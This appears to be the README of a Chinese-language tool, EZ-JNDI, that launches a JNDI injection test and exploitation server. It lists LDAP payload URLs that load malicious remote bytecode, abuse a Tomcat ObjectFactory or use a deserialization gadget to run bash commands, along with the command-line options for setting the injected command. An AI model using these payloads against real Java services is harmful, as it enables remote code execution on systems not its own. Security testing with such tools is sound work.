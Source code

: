 # EZ-JNDI
一键启动JNDI测试/利用环境。

LDAP Payload：
```text
ldap://{IP}:{Port}/Foo --> 利用远程CodeBase加载恶意字节码执行命令
ldap://{IP}:{Port}/Tom --> 使用Tomcat本地ObjectFactory执行命令
ldap://{IP}:{Port}/RS/{gadget_name} --> 使用指定Gadget执行命令

可用Gadget：cck1 ｜ todo...
```

执行命令使用的方式如下（目前支持Linux环境），无需对命令进行base64编码：
```java
Runtime.getRuntime().exec(new String[]{"/bin/bash", "-c", "{command}"});
new ProcessBuilder(new String[]{"/bin/bash", "-c", "{command}").start();
```

LDAP默认端口1099，HTTP默认端口8080，可以使用命令行参数配置端口：
```text
java -jar ezjndi1.0.jar --help
java -jar ezjndi1.0.jar -lp={port1} -hp={port2} -c="{command}"
```

使用截图：
![img.png](img/img.png)

![img.png](img/img2.png)

![img.png](img/img3.png)

TODO:
- 增加gadget
- Windows环境下利用cmd执行命令（`cmd /c {command}`）
---
️备注：由于项目依赖使用了jdk自带的`rt.jar`，其默认不在JVM的 classpath 中，所以如果想修改源代码编译自己的版本，在编译前请修改`pom.xml`，将`<bootclasspath>`标签的值改为自己的`JAVA_HOMOE`：
```xml
<plugin>
    <groupId>org.apache.maven.plugins</groupId>
    <artifactId>maven-compiler-plugin</artifactId>
    <version>3.8.1</version>
    <configuration>
        <compilerArguments>
            <verbose />
            <bootclasspath>${java.home}/lib/rt.jar${path.separator}${java.home}/lib/jce.jar${path.separator}${java.home}/lib/jsse.jar</bootclasspath>
        </compilerArguments>
    </configuration>
</plugin>
```